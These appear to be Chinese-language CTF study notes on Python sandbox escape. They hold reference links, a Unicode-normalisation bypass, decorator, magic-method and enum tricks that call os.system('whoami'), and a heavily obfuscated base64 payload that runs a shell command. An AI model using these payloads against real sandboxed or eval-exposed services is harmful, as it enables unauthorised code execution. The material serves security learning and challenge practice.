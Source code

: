 # 文章
[Python 沙箱逃逸的经验总结](F:\LocalCTF\Python 沙箱逃逸的经验总结 - Tr0y's Blog.html)<br />[Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)<br />[Bypass Python sandboxes - HackTricks](https://book.hacktricks.xyz/v/fr/generic-methodologies-and-resources/python/bypass-python-sandboxes)<br />[[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)<br />[[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)<br />[[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)<br />[由defcon延伸出的一类特殊RCE - 跳跳糖](http://tttang.com/archive/1428/#toc_0x03-2seccon-2021-hitchhike)<br />[Offensive Security Cheatsheet](https://cheatsheet.haax.fr/linux-systems/programing-languages/python/#pyjail-generate-a-shell)<br />[CTFtime.org / HeroCTF v5 / Pyjail / Writeup](https://ctftime.org/writeup/37010)<br />[CTFtime.org / Cyber Apocalypse 2021 / Build yourself in / Writeup](https://ctftime.org/writeup/27649)<br />[https://hackmd.io/@crazyman/H1s0b1Hii](https://hackmd.io/@crazyman/H1s0b1Hii)<br />[Python 沙箱逃逸的通解探索之路 - Tr0y's Blog.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1690373217235-1525d5b1-853a-46f7-b675-6b9178a2f52d.pdf)<br />[Python 沙箱逃逸的经验总结 - Tr0y's Blog.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1690373312344-57944b19-9ee1-4cc9-9615-cfb22beefca9.pdf)
### eval和exec的区别
[深度辨析 Python 的 eval() 与 exec()](https://zhuanlan.zhihu.com/p/60257325)<br />`eval()`只接受单个表达式，不支持复杂的代码逻辑<br />`exec()`第一个参数为代码块，可以执行复杂的代码逻辑
### unicode绕过
Python3.x 支持了 Unicode 变量名，而根据官方文档，解释器在做代码解析的时候，会对变量名进行规范化，使用的算法是 NFKC：<br />[https://docs.python.org/3/reference/lexical_analysis.html#identifiers](https://docs.python.org/3/reference/lexical_analysis.html#identifiers)
```python
eval == ᵉval
```
fuzz工具： [https://github.com/h13t0ry/UnicodeToy](https://github.com/h13t0ry/UnicodeToy)<br />网站：[https://www.compart.com/en/unicode/](https://www.compart.com/en/unicode/)<br />unicode数字替代：[https://www.fileformat.info/info/unicode/category/Nd/list.htm](https://www.fileformat.info/info/unicode/category/Nd/list.htm)
### 触发函数调用的另类方法
[OrangeKiller CTF 第 2 期题解](https://www.tr0y.wang/2022/06/27/OrangeKiller_CTF_2_wp/)<br />[OrangeKiller CTF 第 2 期题解 - Tr0y's Blog.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1690375166348-f9986420-51f4-4a84-9fea-e6495d98b6e5.pdf)<br />装饰器触发函数调用
```python
from os import system


s2 = lambda x: "whoami"

@system
@s2
class x: pass
```
魔术方法触发函数调用
```python
from os import system


class x:
    def __getitem__(self, x):
        system(x)


# 上面这个写法可以改写为：
class x: pass
x.__getitem__ = system


x()["whoami"]
```
枚举调用函数
```python
import enum


enum.EnumMeta.__getitem__ = system
enum.Enum[request.args[{}.__doc__[2]+{}.__doc__[15]+{}.__doc__[0]]]
```
### 一些payload
```python
vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_𝟤_b𝟣_𝟣b_a_s_e_𝟨_𝟦=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict(X𝟣𝟫pbXBvcnRfXygnb𝟥MnKS𝟧wb𝟥BlbignZWNobyBIYWNrZWQ𝟨IGBpZGAnKS𝟧yZWFkKCkg=()))[len([])])
```

